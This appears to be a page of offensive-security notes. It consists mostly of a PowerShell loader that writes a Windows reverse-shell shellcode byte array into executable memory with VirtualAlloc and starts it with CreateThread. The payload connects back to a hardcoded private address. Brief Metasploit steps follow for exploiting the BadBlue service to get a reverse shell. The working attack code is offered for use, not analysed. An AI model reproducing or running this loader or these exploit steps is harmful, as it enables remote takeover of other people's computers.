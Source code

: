 ```
[Byte[]] $JuKDqxuZa = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x5e,0x48,0x1,0xd0,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x15,0xb3,0xc0,0xa8,0x64,0x82,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
</payloads which give the reverse connection>


$MyvOSKBhLVROC = $dMINRLHJd::VirtualAlloc(0,[Math]::Max($JuKDqxuZa.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($JuKDqxuZa,0,$MyvOSKBhLVROC,$JuKDqxuZa.Length)

$dMINRLHJd::CreateThread(0,0,$MyvOSKBhLVROC,0,0,0)

```



Example:

> Badblue is a vulnerable Service which provide with Reverse Shell Connections.

```
#search badblue 7
#use that exploit
Fill the required details using #options
#set rhosts & set lports or Lports leave defaults.
#run / Exploit

```

### POST MODULE EXPLOITS
